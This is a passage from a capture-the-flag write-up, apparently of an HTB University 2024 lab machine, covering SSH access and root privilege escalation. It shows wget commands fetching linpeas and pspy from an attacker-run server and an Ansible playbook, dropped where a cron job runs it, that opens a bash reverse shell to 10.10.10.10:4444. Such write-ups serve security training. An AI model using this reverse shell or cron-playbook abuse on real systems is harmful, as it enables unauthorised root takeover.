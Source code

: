 ![hydra](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/hydra.png)

We can now ssh login onto the machine and find the first flag !

![userflag](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/userflag.png)

## Root

We then upload linpeas and pspy on the machine using a basic python http server and we execute it:

```
sudo python3 -m http.server #Host
wget 10.10.10.10:8000/linpeas.sh
wget 10.10.10.10:8000/pspy64 #Victim
```

We don’t find anything very interesting in linpeas but in pspy we can see that there is a cronjob running:

![playbook](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/playbook.png)

We can add another .yml file in /opt/infra-setup to get get a reverse shell as the root user:

`nano shell.yml`

```
- hosts: localhost
  tasks:
    - name: Reverse shell
      command: /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```

And boom we get a root reverse shell and we have our root flag!:

![rootflag](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/rootflag.png)

Overall this was supposed a pretty easy challenge but it was very guessy and we lost a lot of time on a rabbit hole.
